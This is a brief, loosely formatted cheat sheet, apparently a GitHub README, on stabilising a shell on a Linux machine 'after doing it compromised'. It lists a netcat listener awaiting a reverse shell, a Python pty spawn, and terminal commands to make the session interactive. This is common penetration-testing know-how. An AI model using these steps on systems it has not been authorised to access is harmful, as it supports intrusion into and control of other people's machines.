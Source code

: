 # Stable Shell
<h3>How To Get Stable  On Linux After Doing It Compromised</h3><br>
1. nc -lnvp 80     # Listening For Reverse Shell <br><p>
python -c "import pty;pty.spawn('/bin/bash');"
Ctrl+z                    # Press After Getting The Shell To Pause The Session<br>
stty raw -echo            # Setting Up The Shell <br>
nc -lnvp 80 or fg.        # To Continue The Session<br>

